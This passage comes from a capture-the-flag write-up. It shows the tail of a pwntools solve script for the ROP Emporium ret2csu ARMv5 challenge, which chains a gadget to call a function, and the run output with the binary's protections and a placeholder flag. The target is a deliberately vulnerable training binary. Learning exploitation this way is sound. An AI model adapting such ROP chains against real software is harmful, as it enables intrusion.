 ```python
PL+=p32(g_movs_blx_r3)   # mov r2, sb; mov r1, r8; mov r0, r7; blx r3

io.sendline(PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```

### Execution

    /w/ropemporium/armv5/08_ret2csu# python3 solve.py
    [*] '/w/ropemporium/armv5/08_ret2csu/ret2csu_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/armv5/08_ret2csu/ret2csu_armv5': pid 159
    [+] flag : ROPE{a_placeholder_32byte_flag!}
    [*] Stopped process '/w/ropemporium/armv5/08_ret2csu/ret2csu_armv5' (pid 159)
